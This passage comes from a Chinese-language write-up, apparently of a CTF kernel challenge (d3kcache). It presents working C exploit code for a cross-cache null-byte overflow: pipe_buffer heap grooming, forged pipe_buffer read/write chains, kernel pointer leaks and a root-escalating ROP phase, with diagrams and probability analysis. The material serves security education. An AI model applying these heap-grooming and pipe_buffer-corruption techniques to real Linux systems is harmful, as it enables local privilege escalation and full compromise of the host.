        if(i == victim_pipe_idx || i == overlap_pipe_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == 0x72656361526e6942 && pipe_buffer_data[1] != i) {
            second_victim_pipe_idx = pipe_buffer_data[1];
            second_overlap_pipe_idx = i;

            if(debug_enabled) {
                hex_dump("Secondary corruption metadata dump:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("Located secondary corruption pair - Victim pipe: %d, Controller pipe: %d",
                        second_victim_pipe_idx, second_overlap_pipe_idx);
        }
    }

    if (second_overlap_pipe_idx == -1) {
        log.error("Secondary corruption not found - heap layout is unstable for chaining");
        return -1;
    }
    // Release secondary victim pipe to simplify heap management
    // free pipe_buffer->page to order 0
    close(pipe_fds[second_victim_pipe_idx][0]);
    close(pipe_fds[second_victim_pipe_idx][1]);
    // Realign heap layout for stable chain construction
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx) continue;
        // kmalloc-96 / order 0
        resize_pipe_buffer(i, 0x1000 * 2);
    }

    // Initialize secondary forged pipe_buffer chain component
    memset(&chain_pipe_buf, 0, PIPE_BUFFER_SIZE);
    memcpy(&chain_pipe_buf, &fake_pipe_buf, PIPE_BUFFER_SIZE);
    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 96;
    memcpy(&read_target_pipe_buf, &chain_pipe_buf, PIPE_BUFFER_SIZE);
    memcpy(&write_target_pipe_buf, &chain_pipe_buf, PIPE_BUFFER_SIZE);

    write(pipe_fds[second_overlap_pipe_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    if(debug_enabled) {
        hex_dump("Secondary forged pipe_buffer state:", (char *)&chain_pipe_buf, PIPE_BUFFER_SIZE);
    }

    // Identify self-referential pipe indices for arbitrary R/W chain construction
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == (size_t)fake_pipe_buf.page) {
            chain_pipe_2_idx = i;
            if(debug_enabled) {
                hex_dump("Self-referential pipe #2 state:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("Selected self-referential pipe for chain position #2: %d", chain_pipe_2_idx);
        }
    }

    if (chain_pipe_2_idx == -1) return -1;

    // Configure tertiary pipe linkage in the control chain
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[second_overlap_pipe_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 96;
    write(pipe_fds[second_overlap_pipe_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // Identify third control pipe for chain extension
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx ||
           i == chain_pipe_2_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == (size_t)fake_pipe_buf.page) {
            chain_pipe_3_idx = i;
            if(debug_enabled) {
                hex_dump("Self-referential pipe #3 state:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("Selected self-referential pipe for chain position #3: %d", chain_pipe_3_idx);
        }
    }

    if (chain_pipe_3_idx == -1) return -1;

    // Configure final pipe linkage in the control chain
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[second_overlap_pipe_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 96;
    write(pipe_fds[second_overlap_pipe_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // Identify fourth control pipe to complete the chain
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx ||
           i == chain_pipe_2_idx || i == chain_pipe_3_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == (size_t)fake_pipe_buf.page) {
            chain_pipe_4_idx = i;
            if(debug_enabled) {
                hex_dump("Self-referential pipe #4 state:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("Selected self-referential pipe for chain position #4: %d", chain_pipe_4_idx);
        }
    }

    if (chain_pipe_4_idx == -1) return -1;

    // Finalize arbitrary operation pipeline by interconnecting all chain components
    setup_arbitrary_access_chain();
    return 0;
}

/*
 * ============================================================================
 * MAIN EXPLOIT CONTROLLER
 * ============================================================================
 */
int main(int argc, char **argv) {
    log.info("===========================================================");
    log.info("           KERNEL CROSS-CACHE OVERFLOW EXPLOIT             ");
    log.info("===========================================================");
    puts("");

    //==================================================================
    // PHASE 1: ENVIRONMENT BOOTSTRAP
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
    log.info("===========================================================");
    setup_environment();
    puts("");

    //==================================================================
    // PHASE 2: HEAP LAYOUT ENGINEERING
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 2: HEAP LAYOUT ORCHESTRATION & SPRAYING              ");
    log.info("===========================================================");
    prepare_heap_layout();
    puts("");

    //==================================================================
    // PHASE 3: CROSS-CACHE CORRUPTION & PRIMITIVE BUILDING
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 3: CORE EXPLOITATION & MEMORY PRIMITIVES             ");
    log.info("===========================================================");

    trigger_cross_cache_overflow();
    if (identify_corrupted_pipes() < 0) {
        cleanup_resources();
        exit(EXIT_FAILURE);
    }
    extract_kernel_pointers();
    if (build_arbitrary_rw_chain() < 0) {
        cleanup_resources();
        exit(EXIT_FAILURE);
    }
    puts("");

    //==================================================================
    // PHASE 4: KERNEL INTELLIGENCE GATHERING
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 4: KERNEL MEMORY RECONNAISSANCE & MAPPING            ");
    log.info("===========================================================");
    find_vmemmap_base();
    scan_for_task_structs();
    puts("");

    //==================================================================
    // PHASE 5: PRIVILEGE ESCALATION
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 5: ROOT PRIVILEGE ACQUISITION VIA ROP CHAIN          ");
    log.info("===========================================================");
    privilege_escalation_by_rop_chain();
    puts("");

    //==================================================================
    // PHASE 6: POST-EXPLOITATION CLEANUP RESOURCES
    //==================================================================
    log.info("===========================================================");
    log.info("PHASE 6: POST-EXPLOITATION CLEANUP RESOURCES               ");
    log.info("===========================================================");
    cleanup_resources();
    return 0;
}
```

### 4-1. 环境初始化与系统准备

#### 4-1-1. CPU核心绑定策略

为减少操作过程中的上下文切换干扰，将进程绑定到特定CPU核心：

```c
/* 进程绑定到指定CPU核心 */
void bind_core(int core) {
  cpu_set_t cpu_set;

  CPU_ZERO(&cpu_set);
  CPU_SET(core, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
  log.info("进程已绑定到核心 %d", core);
}
```

#### 4-1-2. 执行上下文保护机制

在开始内存操作前，首先保存当前执行上下文状态，确保操作过程的可控性和可恢复性：

```c
/* 用户态状态保存 */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
  asm volatile("mov user_cs, cs;"
               "mov user_ss, ss;"
               "mov user_sp, rsp;"
               "pushf;"
               "pop user_rflags;");
  log.info("执行上下文状态已保存");
}
```

#### 4-1-3. 设备接口初始化

建立与目标内核模块的安全通信通道：

```c
void setup_environment(void) {
    // CPU核心绑定
    bind_core(0);

    // 执行上下文保存
    save_status();

    // 设备接口初始化
    vuln_dev_fd = open("/dev/d3kcache", O_RDWR);
    if (vuln_dev_fd < 0) {
        log.error("设备访问失败 - 请检查模块加载状态和权限");
        exit(EXIT_FAILURE);
    }
    log.success("设备接口初始化完成 [文件描述符: %d]", vuln_dev_fd);
}
```

#### 4-1-4. 内存页堆喷系统准备

通过子进程建立独立的内存堆喷环境，为后续内存操作提供基础：

```c
void prepare_pgv_system(void) {
  /* 创建命令通信管道 */
  pipe(cmd_pipe_req);
  pipe(cmd_pipe_reply);

  /* 创建子进程处理页面分配 */
  if (!fork()) {
    spray_cmd_handler();
  }
}
```

**内存堆喷系统架构**：


```mermaid
graph TB
    A[父进程] -->|分配请求| B[请求管道];
    A -->|状态查询| C[响应管道];

    B --> D[子进程];
    C --> D;

    D --> E[独立命名空间];
    E --> F[AF_PACKET套接字];
    F --> G[setsockopt操作];
    G --> H[Buddy分配器];
    H --> I[目标order页面];

    subgraph "内存分配流程"
        B --> J[CMD_ALLOC_PAGE];
        B --> K[CMD_FREE_PAGE];
        J --> L[create_socket_and_alloc_pages];
        K --> M[close释放];
    end

    style A fill:#e8f4fd,stroke:#1976d2
    style D fill:#f3e5f5,stroke:#7b1fa2
    style I fill:#c8e6c9,stroke:#388e3c
```

**内存堆喷技术特性**：

| 特性     | 实现机制           | 技术目的              | 可靠性保障     |
| -------- | ------------------ | --------------------- | -------------- |
| 进程隔离 | 子进程独立命名空间 | 避免内存操作干扰      | 进程间通信同步 |
| 批量分配 | setsockopt批量操作 | 高效分配目标order页面 | 错误重试机制   |
| 资源管理 | 管道命令控制       | 精确控制分配时机      | 命令响应验证   |
| 状态同步 | 双向管道通信       | 确保分配完成状态      | 超时处理机制   |

### 4-2. 内存布局控制阶段

#### 4-2-1. 管道基础设施部署

通过大规模管道创建，构建可控的内存布局基础结构：

```c
void prepare_heap_layout(void) {
    // 阶段1：管道标记初始化
    for (int i = 0; i < MAX_PIPES + 0x70; i++) {
        create_pipe(i);
        pipe_buffer_data[0] = *(size_t*)"BinRacer";
        pipe_buffer_data[1] = i;
        pipe_buffer_data[192 / 8] = *(size_t*)"BinRacer";
        pipe_buffer_data[(192 / 8) + 1] = i;
        write(pipe_fds[i][1], pipe_buffer_data, 192 * 2);
    }
}
```

**管道标记体系设计**：


```mermaid
mindmap
  root(管道标记体系)
    (前部标记区)
      --> 位置: 0-15字节
      --> 内容: 魔数"BinRacer"
      --> 功能: 初始重叠检测
      --> 特性: 易受溢出影响
    (后部标记区)
      --> 位置: 192-207字节
      --> 内容: 相同魔数
      --> 功能: 二次重叠检测
      --> 特性: 深埋数据区
    (索引标识)
      --> 前部索引: 管道身份
      --> 后部索引: 验证基准
      --> 一致性: 双区同步
    (检测策略)
      --> 第一阶段: 前部标记验证
      --> 第二阶段: 后部标记验证
```

**管道内存布局示意图**：


```mermaid
graph TB
    subgraph "管道阵列内存布局"
        direction TB
        I[管道0缓冲区] --> J[管道1缓冲区];
        J --> K[管道2缓冲区];
        K --> L[...];
        L --> M[管道N缓冲区];

        style I fill:#bbdefb,stroke:#1976d2
        style M fill:#bbdefb,stroke:#1976d2
    end

    subgraph "标记区域功能"
        direction TB
        N[前部标记] --> O[首次溢出检测];
        P[后部标记] --> Q[二次重叠检测];
        O --> R[定位重叠对];
        Q --> S[验证结构完整性];
    end
```


```mermaid
graph LR
    subgraph "单个管道缓冲区布局"
        A[偏移0] --> B[8字节: 魔数BinRacer];
        A --> C[8字节: 管道索引];
        A --> D[176字节: 填充数据];
        A --> E[192偏移: 后部标记开始];
        E --> F[8字节: 魔数BinRacer];
        E --> G[8字节: 管道索引];
        E --> H[176字节: 填充数据];
    end
```

#### 4-2-2. 内存布局

为了精确控制物理内存布局，提高目标对象与管道缓冲区物理相邻的概率，采用分阶段的释放与分配策略。该策略的核心思想是利用管道缓冲区的尺寸控制，精确影响Buddy分配器的页面选择，从而建立可控的内存布局。

**内存布局控制策略**

```c
// 阶段1：奇数索引管道释放
for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);
// 阶段2：使用堆喷kmalloc-4k占用释放的奇数order 3页面
for (int i = 0; i < MAX_PIPES; i++) resize_pipe_buffer(i, 0x1000 * 64);
// 阶段3：偶数索引管道释放
for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);
// 阶段4：堆喷kmalloc-4k占用释放的部分偶数order 3页面
for (int i = MAX_PIPES; i < MAX_PIPES + 0x70; i++) resize_pipe_buffer(i, 0x1000 * 64);
// 阶段5：堆喷d3kcache_jar对象占用剩下释放的偶数order 3页面
for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
    memset(overflow_payload, 0, 2048);
    kcache_alloc(i, 2048 - 8, overflow_payload);
}
```

**内存布局演变过程**：


```mermaid
sequenceDiagram
    participant A as 初始内存状态
    participant B as 阶段1:奇数释放
    participant C as 阶段2:kmalloc-4k堆喷(前)
    participant D as 阶段3:偶数释放
    participant E as 阶段4:kmalloc-4k堆喷(后)
    participant F as 阶段5:d3kcache分配
    participant G as 最终布局

    A->>B: 已分配的INITIAL_PAGE_SPRAY页面
    Note over B: 释放奇数索引页面<br/>创建order-3空洞

    B->>C: 堆喷kmalloc-4k对象
    Note over C: 128个管道缓冲区<br/>占用奇数空洞

    C->>D: 释放偶数索引页面
    Note over D: 创建新的order-3空洞

    D->>E: 二次堆喷kmalloc-4k
    Note over E: 0x70个管道缓冲区<br/>占用部分偶数空洞

    E->>F: 分配d3kcache_jar对象
    Note over F: 0x10个目标对象<br/>占用剩余偶数空洞

    F->>G: 稳定布局状态
    Note over G: 目标对象与管道缓冲区物理相邻
```

**布局优化设计原理**：

由于`d3kcache_jar`对象数量有限（仅0x10个），为增加其与`pipe_buffer`对象物理相邻的概率，采用分层填充策略：

1. **奇数页面填充**：完全由128个`kmalloc-4k`的`pipe_buffer`填充
2. **偶数页面分治**：
    - 前半部分由0x70个`kmalloc-4k`的`pipe_buffer`填充
    - 后半部分由0x10个`d3kcache_jar`对象填充

**相邻概率分析模型**

为评估布局策略的有效性，建立概率模型来估算目标对象与管道缓冲区物理相邻的可能性。

1. 模型假设：

- 在$$N_{total}$$个可用页面中随机放置$$N_{pipe4k}$$个管道缓冲区页面和$$N_{d3k}$$个目标对象页面
- 每个页面放置相互独立
- 一个特定的管道缓冲区页面与一个特定的目标对象页面相邻的概率约为$$1/N_{total}$$

2. 概率推导：

- 一个特定的管道缓冲区页面与任何目标对象页面都不相邻的概率约为$$(1-1/N_{total})^{N_{d3k}}$$
- 对于所有$$N_{pipe4k}$$个管道缓冲区页面，它们都不与任何目标对象页面相邻的概率约为$$[(1-1/N_{total})^{N_{d3k}}]^{N_{pipe4k}} = (1-1/N_{total})^{N_{pipe4k} \times N_{d3k}}$$
- 因此，至少有一个管道缓冲区页面与至少一个目标对象页面相邻的概率为：

$$
P_{adjacent} = 1 - \left(1 - \frac{1}{N_{total}}\right)^{N_{pipe4k} \times N_{d3k}}
$$

**参数代入与计算**：

- $$N_{total}$$ = 偶数页面总数 = $$\frac{INITIAL\_PAGE\_SPRAY}{2} = 64$$
- $$N_{pipe4k}$$ = 用于填充的`kmalloc-4k`管道数 = 0x70 = 112
- $$N_{d3k}$$ = `d3kcache_jar`对象数 = 0x10 = 16

计算过程：

$$
\begin{aligned}
P_{adjacent} &= 1 - \left(1 - \frac{1}{64}\right)^{112 \times 16} \\
&= 1 - \left(\frac{63}{64}\right)^{1792} \\
&\approx 1 - e^{1792 \times \ln(63/64)} \\
&\approx 1 - e^{1792 \times (-0.015748)} \\
&\approx 1 - e^{-28.22} \\
&\approx 1 - 5.96 \times 10^{-13} \\
&\approx 1.00
\end{aligned}
$$

**模型说明**：

- 该模型是一个简化模型，忽略了边界效应和页面相邻的几何结构
- 实际环境中，由于Buddy分配器的分配策略和系统负载等因素，概率可能略低于理论值
- 但实验表明，该布局策略在实际环境中具有很高的成功率

**优化参数矩阵**：

| 参数           | 数值 | 设计依据               | 效果评估                       |
| -------------- | ---- | ---------------------- | ------------------------------ |
| 初始页面数     | 128  | 平衡内存消耗与布局概率 | 提供足够的布局选择空间         |
| 管道总数       | 128  | 奇数页面完全填充需求   | 确保奇数页面被完全占用         |
| 二次堆喷管道数 | 0x70 | 偶数页面部分填充       | 增加相邻概率，预留目标对象空间 |
| 目标对象数     | 0x10 | 模块限制的最大数量     | 充分利用可用对象槽位           |
| 交替释放间隔   | 2    | 创建规律的内存空洞模式 | 引导对象入驻特定区域           |

#### 4-2-3. 管道缓冲区尺寸控制机制

通过精确控制管道缓冲区大小，影响内核内存分配器的缓存选择：

```c
// 管道缓冲区尺寸与kmalloc缓存对应关系
resize_pipe_buffer(i, 0x1000 * 64);  // 触发kmalloc-4k分配
resize_pipe_buffer(i, 0x1000 * 4);   // 触发kmalloc-192分配
resize_pipe_buffer(i, 0x1000 * 2);   // 触发kmalloc-96分配
```

**管道缓冲区尺寸计算原理**：

Linux内核中管道缓冲区大小调整的算法如下：

```c
static long pipe_set_size(struct pipe_inode_info *pipe, unsigned long arg)
{
    unsigned long user_bufs;
    unsigned int nr_slots, size;
    long ret = 0;

    size = round_pipe_size(arg);
    nr_slots = size >> PAGE_SHIFT;
    // ... 其他代码
}

unsigned int round_pipe_size(unsigned long size)
{
    if (size > (1U << 31))
        return 0;

    /* Minimum pipe size, as required by POSIX */
    if (size < PAGE_SIZE)
        return PAGE_SIZE;

    return roundup_pow_of_two(size);
}
```

**尺寸控制技术细节**：

| 缓冲区大小 | 原始大小   | round_pipe_size后 | nr_slots | pipe_buffer数组大小 | 目标缓存    | 实际缓存    | 物理页order |
| ---------- | ---------- | ----------------- | -------- | ------------------- | ----------- | ----------- | ----------- |
| 0x1000×64  | 262144字节 | 262144字节        | 64       | 2560字节            | kmalloc-4k  | kmalloc-4k  | order-3     |
| 0x1000×4   | 16384字节  | 16384字节         | 4        | 160字节             | kmalloc-192 | kmalloc-192 | order-0     |
| 0x1000×2   | 8192字节   | 8192字节          | 2        | 80字节              | kmalloc-96  | kmalloc-96  | order-0     |

#### 4-2-4. 管道缓冲区重定向机制

通过调整管道缓冲区大小，精确控制底层kmalloc缓存选择：

```c
// 管道缓冲区尺寸与kmalloc缓存对应关系
void configure_pipe_buffer_sizes(void) {
    // 第一次堆喷：kmalloc-4k / order 3
    // 用于与d3kcache_jar对象物理相邻
    for (int i = MAX_PIPES; i < MAX_PIPES + 0x70; i++) {
        resize_pipe_buffer(i, 0x1000 * 64);
    }

    // 第二次堆喷：kmalloc-192 / order 0
    // 用于抢占释放的order-0页面
    for (int i = 0; i < MAX_PIPES; i++) {
        if (i == victim_pipe_idx || i == overlap_pipe_idx) continue;
        resize_pipe_buffer(i, 0x1000 * 4);
    }

    // 第三次堆喷：kmalloc-96 / order 0
    // 用于二次抢占释放的order-0页面
    for (int i = 0; i < MAX_PIPES; i++) {
        if (i == victim_pipe_idx || i == overlap_pipe_idx ||
            i == second_victim_pipe_idx || i == second_overlap_pipe_idx) continue;
        resize_pipe_buffer(i, 0x1000 * 2);
    }
}
```

**缓存选择策略分析**：


```mermaid
graph TB
    A[管道缓冲区尺寸控制] --> B[尺寸: 0x1000 * 64];
    A --> C[尺寸: 0x1000 * 4];
    A --> D[尺寸: 0x1000 * 2];

    B --> E[计算过程];
    C --> F[计算过程];
    D --> G[计算过程];

    E --> H[nr_slots = 64];
    F --> I[nr_slots = 4];
    G --> J[nr_slots = 2];

    H --> K[数组大小: 64×40=2560字节];
    I --> L[数组大小: 4×40=160字节];
    J --> M[数组大小: 2×40=80字节];

    K --> N[kmalloc-4k缓存];
    L --> O[kmalloc-192缓存];
    M --> P[kmalloc-96缓存];

    N --> Q[order-3页面];
    O --> R[order-0页面];
    P --> S[order-0页面];

    style N fill:#bbdefb,stroke:#1976d2
    style O fill:#c8e6c9,stroke:#388e3c
    style P fill:#f3e5f5,stroke:#7b1fa2
```

#### 4-2-5. 内存布局策略总结

1. **分层填充策略**：
    - 奇数页面完全由`kmalloc-4k`管道填充
    - 偶数页面分治：部分由`kmalloc-4k`管道填充，剩余由目标对象填充
    - 提高目标对象与管道缓冲区相邻概率至接近100%

2. **尺寸控制策略**：
    - 大尺寸（64KB）触发`kmalloc-4k`分配，占用order-3页面
    - 中尺寸（16KB）触发`kmalloc-192`分配，占用order-0页面
    - 小尺寸（8KB）触发`kmalloc-96`分配，占用order-0页面

3. **时序控制策略**：
    - 先释放奇数页面，建立规律空洞
    - 分阶段填充，控制对象入驻顺序
    - 最后分配目标对象，确保布局稳定性

4. **概率保障机制**：
    - 理论模型显示相邻概率接近100%
    - 大量管道缓冲区增加统计确定性
    - 错误重试机制提供实际容错能力

**布局成功保障机制**：

1. **冗余设计**：
    - 使用大量管道增加相邻概率
    - 分阶段操作提供多次机会
    - 错误重试机制提高成功率

2. **状态验证**：
    - 管道标记体系验证重叠状态
    - 完整性检查确保布局正确
    - 错误检测及时调整策略

3. **性能优化**：
    - 批量操作减少系统调用
    - 缓存感知优化访问模式
    - 并行处理提高效率（未来扩展）

通过这种分层、分阶段的布局控制策略，结合精确的尺寸控制和时序安排，实现了对物理内存布局的精细控制。概率模型分析表明，该策略能够将目标对象与管道缓冲区物理相邻的概率提升到接近100%，为目标操作创造了理想的内存环境。

### 4-3. 状态转换触发阶段

在成功建立内存布局后，通过精确的数据操作触发内存状态转换，建立非对称页面共享关系。该阶段的核心是通过最小化的数据修改，引发内存状态的级联变化。

#### 4-3-1. Null字节溢出

```c
void trigger_cross_cache_overflow(void) {
    // 扩展0x70个管道缓冲区尺寸，触发kmalloc-4k分配
    for (int i = MAX_PIPES; i < MAX_PIPES + 0x70; i++) {
        resize_pipe_buffer(i, 0x1000 * 64);
    }

    // 分配0x10个d3kcache_jar目标对象
    log.info("分配 %d 个目标驱动对象进入已建立的布局结构", FINAL_PAGE_SPRAY);
    for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
        memset(overflow_payload, 0, 2048);
        kcache_alloc(i, 2048 - 8, overflow_payload);
    }

    // 触发状态转换操作
    log.info("构建状态转换数据负载，建立非对称页面共享");
    for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
        memset(overflow_payload, 0, 2048);
        kcache_append(i, 8, overflow_payload);
    }
}
```

**内存状态转换前布局**：


```mermaid
graph LR
    subgraph "目标对象与管道缓冲区相邻布局"
        A[d3kcache_jar对象N] --> B[数据缓冲区: 2032字节];
        A --> C[保留空间: 8字节];
        C --> D[边界: 目标对象末尾];

        E[pipe_buffer结构体] --> F[page指针: 8字节];
        E --> G[offset字段: 4字节];
        E --> H[len字段: 4字节];
        E --> I[ops指针: 8字节];
        E --> J[flags字段: 8字节];
        E --> K[private字段: 8字节];

        D --> L[物理相邻边界];
        L --> F;
    end

    style D fill:#ffcdd2,stroke:#d32f2f
    style F fill:#bbdefb,stroke:#1976d2
```

**操作物理效应分析**：

```mermaid
flowchart TD
    A[初始内存状态] --> B[目标对象已分配];
    B --> C[目标对象末尾追加8字节];
    C --> D[写入8个零字节];
    D --> E{目标对象缓冲区状态};

    E -->|缓冲区已满| F[单字节溢出];
    E -->|缓冲区未满| G[正常写入];

    F --> H[影响相邻内存];
    H --> I{相邻对象类型};

    I -->|pipe_buffer结构体| J[修改page指针低字节];
    I -->|其他对象| K[无预期效应];

    J --> L[指针低字节清零];
    L --> M[页面对齐操作];
    M --> N[建立非对称页面共享];

    style F fill:#ffcdd2,stroke:#d32f2f,stroke-width:2px
    style N fill:#c8e6c9,stroke:#388e3c,stroke-width:2px
```

#### 4-3-2. 状态转换

通过最小化的数据修改，触发内存状态的级联变化，建立非对称页面共享关系：

**指针修改数学关系**：

设相邻`pipe_buffer`结构体的`page`指针原始值为：

$$
P_{orig} = 0x\text{FFFF}xxxxyyyyyyZZ
$$

其中：

- 高56位：`0xFFFFxxxxyyyyyy`表示物理页帧地址
- 低8位：`ZZ`表示页内偏移或属性位

通过追加8个零字节到相邻目标对象，可能修改`page`指针的最低字节为0：

$$
P_{modified} = P_{orig} \land 0xFFFFFFFFFFFFFF00
$$

运算结果：

$$
P_{modified} = 0x\text{FFFF}xxxxyyyyyy00
$$

**物理效应分析**：

1. **对齐效应**：指针低8位清零使指针指向4KB页面对齐地址
2. **重定向效应**：指针指向不同物理页帧
3. **共享效应**：建立非对称页面共享关系

**非对称页面共享关系**：

共享前物理页关系：

```
管道A: page指针 → 物理页X (偏移00)
管道B: page指针 → 物理页Y (偏移C0)
```

共享后物理页关系：

```
管道A: page指针 → 物理页X (偏移00)  [保持不变]
管道B: page指针 → 物理页Y (偏移00)  [重定向到物理页X]
```

通过这种精心设计的状态转换机制，实现了从正常内存布局到非对称页面共享状态的平滑过渡，为后续的内存操作原语构建奠定了坚实基础。整个过程遵循最小扰动原则，在保证系统稳定性的同时实现复杂的状态转换。

### 4-4. 状态检测与验证阶段

#### 4-4-1. 重叠状态识别机制

通过双重标记验证，检测内存重叠状态：

```c
int identify_corrupted_pipes(void) {
    for (int i = 0; i < MAX_PIPES; i++) {
        memset(pipe_buffer_data, 0, 192);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        // 魔数验证与索引交叉验证
        if (pipe_buffer_data[0] == 0x72656361526e6942 && pipe_buffer_data[1] != i) {
            victim_pipe_idx = pipe_buffer_data[1];
            overlap_pipe_idx = i;
        }
        read(pipe_fds[i][0], pipe_buffer_data, 192 - PIPE_BUFFER_SIZE);
    }

    if (overlap_pipe_idx == -1) {
        return -1;  // 未检测到重叠状态
    }
    return 0;
}
```

**检测逻辑状态机**：

```mermaid
stateDiagram-v2
    [*] --> 初始状态
    初始状态 --> 读取管道结构: 遍历所有管道
    读取管道结构 --> 验证魔数: 读取pipe_buffer
    验证魔数 --> 魔数匹配: 魔数正确
    验证魔数 --> 魔数不匹配: 继续下一个

    魔数匹配 --> 验证索引: 检查索引一致性
    验证索引 --> 索引异常: 索引不匹配
    验证索引 --> 索引正常: 继续下一个

    索引异常 --> 记录重叠对: victim_pipe_idx, overlap_pipe_idx
    记录重叠对 --> 检测完成

    魔数不匹配 --> 读取管道结构: 下一个管道
    索引正常 --> 读取管道结构: 下一个管道

    检测完成 --> [*]
```

#### 4-4-2. 构造一级控制链基础

**释放与重分配机制**

```c
// 释放受害管道资源
close(pipe_fds[victim_pipe_idx][0]);
close(pipe_fds[victim_pipe_idx][1]);

// 重调整剩余管道缓冲区
for (int i = 0; i < MAX_PIPES; i++) {
    if(i == victim_pipe_idx || i == overlap_pipe_idx) continue;
    resize_pipe_buffer(i, 0x1000 * 4);
}
```

**控制链构建流程**：

```mermaid
graph TD
    A[准备构造一级控制链] --> B[释放受害管道];
    B --> C[内核释放pipe_buffer];
    C --> D[物理页回归order-0];

    D --> E[重调整剩余管道];
    E --> F[触发kmalloc-192分配];
    F --> G[抢占释放的页面];

    G --> H[建立控制链基础];
    H --> I[准备泄露内核地址];

    style B fill:#ffcdd2,stroke:#d32f2f
    style I fill:#c8e6c9,stroke:#388e3c
```

**技术细节**：

1. **释放阶段**：
    - 释放`victim_pipe_idx`的管道资源
    - 内核释放对应的`pipe_buffer`结构体（`kmalloc-4k`）
    - 物理页面回归order-0空闲列表

2. **重分配阶段**：
    - 调整剩余管道缓冲区为192
    - 触发`kmalloc-192`分配（160字节）
    - 新分配抢占刚释放的order-0页面

### 4-5. 内核元数据提取阶段

从受损结构中提取关键内核指针，建立内存坐标系：

```c
void extract_kernel_pointers(void) {
    memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
    read(pipe_fds[overlap_pipe_idx][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

    // 内核偏移计算
    kernel_offset = pipe_buffer_data[2] - ANON_PIPE_BUF_OPS;
    kernel_base += kernel_offset;

    // 页帧地址提取
    fake_pipe_buf.page = (struct page*)pipe_buffer_data[0];
    fake_pipe_buf.ops = (struct pipe_buf_operations*)pipe_buffer_data[2];
    fake_pipe_buf.offset = pipe_buffer_data[3];
    fake_pipe_buf.len = pipe_buffer_data[4];
}
```

**元数据结构解析**：

```mermaid
graph LR
    A[读取的pipe_buffer数据] --> B[40字节原始数据];

    B --> C[字段分解];
    C --> D[0-7字节: page指针];
    C --> E[8-15字节: 偏移/长度组合];
    C --> F[16-23字节: ops指针];
    C --> G[24-31字节: flags字段];
    C --> H[32-39字节: private字段];

    D --> I[物理页帧信息];
    E --> J[offset: 低32位, len: 高32位];
    F --> K[内核符号地址];

    I --> L[计算vmemmap基址];
    K --> M[计算内核偏移];

    L --> N[物理内存坐标系];
    M --> O[虚拟地址坐标系];

    subgraph "地址计算关系"
        P[运行时地址] --> Q[静态地址];
        Q --> R[内核偏移];
        R --> S[内核基址];
    end

    style F fill:#bbdefb,stroke:#1976d2,stroke-width:2px
    style M fill:#c8e6c9,stroke:#388e3c,stroke-width:2px
```

**内核偏移计算模型**：

设：

- $$A_{runtime}$$ = 运行时符号地址（从内存中读取）
- $$A_{static}$$ = 静态符号地址（编译时确定）
- $$K_{base}$$ = 内核基址
- $$K_{offset}$$ = 内核偏移

计算关系：

$$
K_{offset} = A_{runtime} - A_{static}
$$

$$
K_{base} = K_{base\_default} + K_{offset}
$$

其中$$K_{base\_default}$$为默认内核基址（如0xffffffff81000000）。

### 4-6. 构造二级控制链

在成功泄露内核地址后，需要构造二级控制链来扩展控制能力，为后续的管道链构建奠定基础。二级控制链通过在一级重叠管道中建立控制结构，实现更复杂的物理内存操作。

#### 4-6-1. 建立二级共享

通过修改一级重叠管道中的page指针，实现二次页面共享，为控制链的扩展提供核心控制节点：

```c
